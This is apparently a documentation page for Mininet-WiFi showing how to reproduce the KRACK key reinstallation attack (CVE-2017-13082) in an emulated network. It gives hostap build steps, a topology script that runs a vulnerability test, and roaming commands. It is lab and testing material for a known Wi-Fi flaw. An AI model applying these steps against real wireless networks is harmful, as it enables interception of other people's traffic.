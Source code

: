 ************
Key Reinstallation Attacks
************


How to perform the Key Reinstallation Attack
-------------

.. Note::
  **Inspired in https://www.krackattacks.com/**
  
  **Requirements:** 
  
  - Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
  - Hostap - http://w1.fi/hostap.git (commit df949062017bacae8095edeb73647ef97e7566bc )
  - libnl-route-3-dev
  
  
The result of this demo will be quite similar to the video below:

.. raw:: html

    <div style="position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden; max-width: 100%; height: auto;">
        <iframe src="//www.youtube.com/embed/XbUxH5zQPTc" frameborder="0" allowfullscreen style="position: absolute; top: 0; left: 0; width: 100%; height: 100%;"></iframe>
    </div>

.. code:: console

   ~$ mkdir working_dir
   ~/working_dir$ sudo apt install libnl-route-3-dev
   ~/working_dir$ git clone http://w1.fi/hostap.git
   ~/working_dir$ cd hostap
   ~/working_dir/hostap$ git reset df949062017
   ~/working_dir/hostap$ cd wpa_supplicant/
   ~/working_dir/hostap/wpa_supplicant$ cp defconfig .config
   ~/working_dir/hostap/wpa_supplicant$ sudo make install
   ~/working_dir/hostap/wpa_supplicant$ cd ../hostapd
   
   # uncomment the line with CONFIG_IEEE80211R=y in defconfig and add CONFIG_IEEE80211R_AP=y just below
   ~/working_dir/hostap/hostapd$ cp defconfig .config
   ~/working_dir/hostap/hostapd$ sudo make install
   
   ~/working_dir/hostap/hostapd$ cd ~/working_dir
   ~/working_dir$ git clone https://github.com/ramonfontes/krackattack
   

First of all trying to identify the network topology that will be generated by the code below:

.. code:: python

    #!/usr/bin/python

    """This code tests if APs are affected by CVE-2017-13082 (KRACK attack) and
    determine whether an implementation is vulnerable to attacks."""

    __author__ = "Ramon Fontes"
    __credits__ = ["https://github.com/vanhoefm/krackattacks-test-ap-ft"]

    from time import sleep

    from mininet.log import setLogLevel, info
    from mininet.term import makeTerm
    from mn_wifi.net import MininetWithControlWNet, Mininet_wifi
    from mn_wifi.cli import CLI
    from mn_wifi.link import wmediumd
    from mn_wifi.wmediumdConnector import interference


    def topology():

        "Create a network."
        net = Mininet_wifi(link=wmediumd, wmediumd_mode=interference)

        info("*** Creating nodes\n")
        sta1 = net.addStation('sta1', ip='10.0.0.1/8', position='50,0,0',
                              encrypt='wpa2')
        ap1 = net.addStation('ap1', mac='02:00:00:00:01:00',
                             ip='10.0.0.101/8', position='10,30,0')
        ap2 = net.addStation('ap2', mac='02:00:00:00:02:00',
                             ip='10.0.0.102/8', position='100,30,0')

        info("*** Configuring Propagation Model\n")
        net.setPropagationModel(model="logDistance", exp=3.5)

        info("*** Configuring wifi nodes\n")
        net.configureWifiNodes()

        ap1.setMasterMode(intf='ap1-wlan0', ssid='handover', channel='1',
                          ieee80211r=True, bssid_list=[['ap2']], mobility_domain='a1b2',
                          passwd='123456789a', encrypt='wpa2')
        ap2.setMasterMode(intf='ap2-wlan0', ssid='handover', channel='6',
                          ieee80211r=True, bssid_list=[['ap1']], mobility_domain='a1b2',
                          passwd='123456789a', encrypt='wpa2')

        info("*** Plotting Graph\n")
        net.plotGraph(min_x=-100, min_y=-100, max_x=200, max_y=200)

        info("*** Starting network\n")
        net.build()

        sta1.cmd("iw dev sta1-wlan0 interface add mon0 type monitor")
        sta1.cmd("ifconfig mon0 up")

        sleep(10)
        makeTerm(sta1, title='Scanning', cmd="bash -c 'iw dev sta1-wlan0 scan;'")
        makeTerm(sta1, title='KrackAttack', cmd="bash -c 'cd krackattack && python krack-ft-test.py;'")

        info("*** Running CLI\n")
        CLI(net)

        info("*** Stopping network\n")
        net.stop()


    if __name__ == '__main__':
        setLogLevel('info')
        topology()



So considering that you have named the code above as ```krack-attack```, run it as follows:

.. code:: console

    ~/working_dir$ sudo python krack-attack.py
    

You should see now two terminals and you can use the Mininet-WiFi CLI to roam between ```ap1``` and ```ap2```:
    
.. code:: console

    mininet-wifi> sta1 wpa_cli -i sta1-wlan0 roam 02:00:00:00:01:00
    mininet-wifi> sta1 wpa_cli -i sta1-wlan0 roam 02:00:00:00:02:00
    
And finally you can see the vulnerability after pinging to ```ap2```.
    
.. code:: console    
    
    mininet-wifi> sta1 ping 10.0.0.102
